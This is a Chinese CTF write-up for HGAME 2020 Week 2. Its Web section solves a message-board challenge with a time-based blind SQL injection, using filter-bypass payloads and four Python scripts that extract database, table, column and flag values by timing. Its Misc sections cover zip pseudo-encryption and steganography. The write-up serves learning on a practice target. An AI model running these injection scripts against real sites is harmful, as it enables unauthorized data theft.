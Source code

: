 ```yaml
---
title: HGAME2020 Week2 WriteUp
date: 2020-02-19
updated: 2021-03-07
categories:
  - 学习笔记
  - CTF
  - 学习笔记
  - CTF
  - HGAME
tags:
  - Web
  - Misc
  - 图片隐写
  - Python
  - Hgame
  - SQL注入
  - 伪加密
  - 电子文档隐写
---
```


## Web

### Cosmos的留言板-1

<p>这题打开一看，一个留言板，没有可以操作的地方 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-2.png)

<p> 唯一可疑的地方只有这个id，试着改了一下id，但从4开始就没有信息了，于是尝试把id改成字符。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-3.png)

<p> 发现不管id是什么它都会显示在留言板上，于是这有了可操作性，可以当作一个注入点，然而历经漫长的时间，翻遍了网上sql的资料也没多少进展，只发现空格、加号和井号被过滤掉了。最后觉得这应该是一道基于时间的盲注，因为哪怕成功注入，也没用任何反应<del>（一直以为是没注入成功。。。）</del>确认这点之后，我就开始尝试利用sleep函数来进行各种操作。</p>

<p>事实的真相是这题用Union就可以做出的，我居然还盲注。。。</p>

<p>经过尝试发现可以用()和/**/来充当空格，还发现虽然#被过滤了，但URl编码后的%23没问题，于是试了下`id=1'and/**/sleep(1)/**/%23`。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-4.png)

<p> 然后我尝试了手动爆破，令id=`1%27and(sleep(ascii(mid(database()from(1)for(1)))-97))%23`,通过将目标字符和指定字符的ascii码的差值反应在时间间隔上，来算出对应字符，但花了半天才爆破出数据库名easysql，想到后面的表名、列名和字段，顿时生无可恋。于是，再次拿起了python。 </p>

```py
#爆库名
import requests
import time

flag = ''
maxlength = 50
host = 'http://139.199.182.61/index.php?'

for i in range(1, 8):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substring((database()),{0},1))={1},sleep(3),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 2:
            flag += chr(x)
            print(flag)
            break
```

<p>然后爆表名，但发现出了问题，没有回显，说明sql语句有错误，然后简单的测试了一下，最后确定是select被过滤了，尝试把s大写，看看能不能绕过。OK，有回显了，说明大写可以绕过。然后就还是老方法，通过时间间隔，得出有两个表，表名长度分别是16和8。</p>

<p>令id=`1%27and(sleep(length((Select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=%27easysql%27limit/**/0,1))))%23`</p>

<p>继续用python爆破表名,我当初真的很怀疑这道题真的这么复杂吗。。。但还是一路走到底了。至少Week3也用上了这些代码，也不算完全白费工夫。。。</p>

```py
#爆表名
import requests
import time

flag = ''
maxlength = 10
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(97,127):
        payload = "id=1\'and(if(ascii(substring((Select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='easysql'limit/**/0,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```

<p> 由于某些未定义事件的发生，重新爆了几遍，最后确定两个表名`f1aggggggggggggg`和`messages`。  之后是列名，先看看长度和个数</p>

<p>令id=`1%27and(sleep(length((Select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name=%27f1aggggggggggggg%27limit/**/0,1))))%23`</p>

<p>发现flag那个表只有一列，列名长度为10，另一个表有两列，长度分别是2和7，第二个表显然是放留言板里的信息的了，就不管了，那么就爆flag表的列名。 </p>

```py
#爆列名
import requests
import time

flag = ''
maxlength = 12
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substring((Select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name='f1aggggggggggggg'limit/**/0,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```

<p> sleep的时间长一点，准确度会稍微高一点，也就一点。。。得到列名`fl4444444g`。最后爆字段，先看看长度。</p>

<p>令id=`1%27and(sleep(length((Select/**/fl4444444g/**/from/**/f1aggggggggggggg/**/limit/**/0,1))))%23`，发现只有一个字段，长度为44。。。不想说话了，爆吧。。。 </p>

```py
#爆字段。。。
import requests
import time

flag = ''
maxlength = 45
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substr((Select/**/fl4444444g/**/from/**/f1aggggggggggggg/**/limit/**/0,1),{0},1)) ={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```

<p> 爆了不知道多少遍终于确定了flag是`hgame{w0w_sql_InjeCti0n_Is_S0_IntereSting!!}`</p>

<p>下面是最后一次的结果，还是有几个字符是错的。。。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-1.png)

## Misc 

### 所见即所假 

<p> 下载下来一个压缩包，发现有密码，看了下压缩包的备注之类的信息，只发现了这句话。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-2.png)

<p>先不管F5是什么，试了一下Key，发现不对，看来这是解压以后才可能用到的，那么先不管。再看了眼题目和对联。。。只表达了一个意思，那就是你看到的可能是假的，再加上一上来就是个加密的zip，多半就是伪加密了，用Winhex看看,发现压缩文件数据区的全局方式位标记这边是0，可见果然是伪加密。</p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-3.png)

<p> 然后找一下压缩文件的目录区，把全局方式位标记这里的9改成0即可破解加密<del>（目录区居然在最后面，一开始没用搜索，找个半死。。。）</del></p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-4.png)

<p> 解压发现只有一张图片，看了下，也没有压缩包之类的藏在图片里，备注之类的地方也没有东西，那么之前压缩包里的注释就是提示，F5应该是指F5隐写，于是先把`F5-steganography`给clone下来，然后运行一下。</p>

```powershell
cd ......\GitHub\F5-steganography
java Extract FLAG_IN_PICTURE.jpg -p NllD7CQon6dBsFLr
```

<p>这边不知道为什么必须把图片放在同一个文件夹里才能运行，用绝对路径的话不行。。。 </p>

<p>然后得到一个output.txt，打开一看全是数字和字母，字母最大就是E，看来是个十六进制，转成字符串就得到了flag。</p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-1.png)

### 地球上最后的夜晚

<p>下下来一个压缩包，没有密码，解压后里面有一个pdf和一个加密的7z压缩包，先看了下注释之类的地方，没用有用的东西，pdf打开发现是篇深度学习相关的论文？虽然名字是No password，但密码肯定和这个pdf相关，之后我在找F5隐写相关的资料的时候，发现了一个叫wbStego4.3open的软件，可以把文件隐藏到BMP，TXT，HTM和PDF文件中。那么就试试这个软件，然后生成了一个txt文件，里面有解压的密码。</p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-5.png)

<p>把文件解压之后，里面只有一个word文档，打开来一看里面还真是地球上最后的夜晚，看了下没用特殊的地方，打开隐藏文字，也没有看到flag出现。找了下资料，发现word可以转换成xml，也可从xml转换回来。所以在重新打包成word的时候有可能被隐藏进其他数据。于是把这个word文档解压试试。</p>

<p>翻了半天，找到了一个secret.xml，打开一看，成功找到了flag。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-6.png)

